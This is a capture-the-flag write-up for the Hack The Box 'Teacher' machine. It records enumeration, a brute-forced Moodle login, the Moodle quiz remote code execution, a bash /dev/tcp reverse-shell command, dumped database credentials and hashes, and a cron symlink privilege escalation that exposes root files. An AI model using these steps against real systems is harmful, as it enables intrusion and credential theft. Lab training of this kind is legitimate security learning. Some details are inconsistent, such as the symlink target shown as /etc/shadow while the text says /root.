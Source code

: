 # Loot

## Box Info
- Name : Teacher
- IP : 10.10.10.153
- Level : Medium
-  OS : Linux

## Creds

| Service | Username | Password | Description |
| --- | --- | --- | ---| 
| Moodle Login | giovanni | Th4C00lTheacha# | Found in /images/5.png |
| Mysql Login | root | Welkom1! | Found in config.php.save in var/www/moodle |
| User Login - giovanni | giovanni | expelled | Found in mdl_users in mysql |ng# Enumeration

## Nmap

- Full Scan - Running custom scripts and version enumeration on all ports
```bash
sudo nmap -sC -sV -oA nmap/full_scan 10.10.10.153 -p-                                 130 ↵Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-15 09:32 EDTNmap scan report for 10.10.10.153Host is up (0.19s latency).Not shown: 65534 closed portsPORT   STATE SERVICE VERSION80/tcp open  http    Apache httpd 2.4.25 ((Debian))|_http-server-header: Apache/2.4.25 (Debian)|_http-title: Blackhat highschoolService detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 1250.03 seconds

```

**Quick Glance**
- Just Port 80 open
- Apache 2.4.25 and Debian
- Mention of a portal to login. Need to check that - moodle

## Gobuster

### Directory Enumeration
```bash
/images               (Status: 301) [Size: 313] [--> http://10.10.10.153/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.153/css/]
/manual               (Status: 301) [Size: 313] [--> http://10.10.10.153/manual/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.153/js/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.153/javascript/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.153/fonts/]
/phpmyadmin           (Status: 403) [Size: 297]
/moodle               (Status: 301) [Size: 313] [--> http://10.10.10.153/moodle/]
/server-status        (Status: 403) [Size: 300]

```

- In /images, we can see that 5.png has different size than all the other images.
- We can download that and we can check for the contents.
```bash
cat 5.png.1 
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni

```
- We can see that we need to figure out the last character of the password, considering utf-8 encoding.
- Using the python3 script in the directory - `exploit.py`, we can just bruteforce the password.
- Credentials for loggin in --> giovanni:Th4C00lTheacha#
# Foothold
## Getting reverse shell
- Fom the exploit described by [ripstech](https://blog.ripstech.com/2018/moodle-remote-code-execution/), we can create a quiz.
- We can first check if `ping -c 1 10.10.14.12` is working or not.
```bash
 sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
09:35:15.237927 IP 10.10.10.153 > 10.10.14.12: ICMP echo request, id 882, seq 1, length 64
09:35:15.237980 IP 10.10.14.12 > 10.10.10.153: ICMP echo reply, id 882, seq 1, length 64
09:35:15.412755 IP 10.10.10.153 > 10.10.14.12: ICMP echo request, id 884, seq 1, length 64
09:35:15.412804 IP 10.10.14.12 > 10.10.10.153: ICMP echo reply, id 884, seq 1, length 64
09:35:21.773372 IP 10.10.10.153 > 10.10.14.12: ICMP echo request, id 886, seq 1, length 64
09:35:21.773407 IP 10.10.14.12 > 10.10.10.153: ICMP echo reply, id 886, seq 1, length 64
09:35:21.978014 IP 10.10.10.153 > 10.10.14.12: ICMP echo request, id 888, seq 1, length 64
09:35:21.978046 IP 10.10.14.12 > 10.10.10.153: ICMP echo reply, id 888, seq 1, length 64
^C
8 packets captured
8 packets received by filter
0 packets dropped by kernel

```

- We can create a reverse shell request `bash -c 'bash -i >& /dev/tcp/10.10.14.12'` to get a reverse shell.
![[Pasted image 20210418100615.png]]
```bash
nc -lnvp 9001                                                                           1 ↵ 
listening on [any] 9001 ...                                                                     
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.153] 60142                                    
bash: cannot set terminal process group (829): Inappropriate ioctl for device                   
bash: no job control in this shell                                                              
www-data@teacher:/var/www/html/moodle/question$ python3 -c 'import pty;pty.spawn("/bin/bash")'  
<ion$ python3 -c 'import pty;pty.spawn("/bin/bash")'                                            
www-data@teacher:/var/www/html/moodle/question$ ^Z
[1]  + 2669 suspended  nc -lnvp 9001
╭─norman@kali ~/Hack-The-Box/machines/teacher ‹main*› 
╰─$ stty raw -echo; fg                                                                    148 ↵
[1]  + 2669 continued  nc -lnvp 9001

...[Press RET twice]...

```

# Privilege Escalation

- From /var/www/html/moodle/config.php.save, we can get the mysql credentials.
```php
www-data@teacher:/var/www/html/moodle$ cat config.php                                           
<?php  // Moodle configuration file                                                             
                                                                                                
unset($CFG);                                                                                    
global $CFG;                                                                                    
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (

```
- We can login using `mysql -u root -pWelkom1!`
- We can check in database moodle, there is a table named as `mdl_user`
```mysql
MariaDB [moodle]> select id,username,password from mdl_user;
+------+-------------+--------------------------------------------------------------+
| id   | username    | password                                                     |
+------+-------------+--------------------------------------------------------------+
|    1 | guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
|    2 | admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
|    3 | giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| 1337 | Giovannibak | 7a860966115182402ed06375cf0a22af                             |

```
- We can see the password with user ID: LEET is in md5sum, which we can check online (no need for hashcat or john)
- giovanni:expelled
- We can try loggin in using these credentials. /etc/passwd, would have had the users with login capabilities, from where we can get the user giovanni, or check the home directory.


## User: root
- After running linpeas, we can see that there is a file `/usr/bin/backup.sh`, which we can read, which is creating a backup of /home/giovanni/work/courses directory in a tar file in ./tmp directory and then extarcting that and changing the pemissions to 777 for all the files recursively.
```bash
giovanni@teacher:/var/www/html/moodle$ cat /usr/bin/backup.sh 
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;

```
- Also date tells us that backup file is being created every minute, with root privileges, so there must be a cron job which is perfoming this every minute with rroot prrivileges.
```bash
giovanni@teacher:~$ ls -la work/tmp/backup_courses.tar.gz 
-rwxrwxrwx 1 root root 45 Apr 18 16:15 work/tmp/backup_courses.tar.gz
giovanni@teacher:~$ date
Sun Apr 18 16:15:12 CEST 2021
giovanni@teacher:~$ 

```
- So we can change the couses file as such so that we can get the root access or flag. We can create a symbolic link named `course` to root directory, using `ln -s /root courses`. Now the script will make a backup for the root directory and then get us `root.txt` in the `./tmp/course` directory
```bash
giovanni@teacher:~/work$ ls -la
total 16
drwxr-xr-x 4 giovanni giovanni 4096 Apr 18 15:44 .
drwxr-x--- 4 giovanni giovanni 4096 Nov  4  2018 ..
lrwxrwxrwx 1 giovanni giovanni   11 Apr 18 15:44 courses -> /etc/shadow
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 courses.bak
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 tmp
giovanni@teacher:~/work$ cat tmp/courses/root.txt 
4f3a83b4...
giovanni@teacher:~/work$ 

```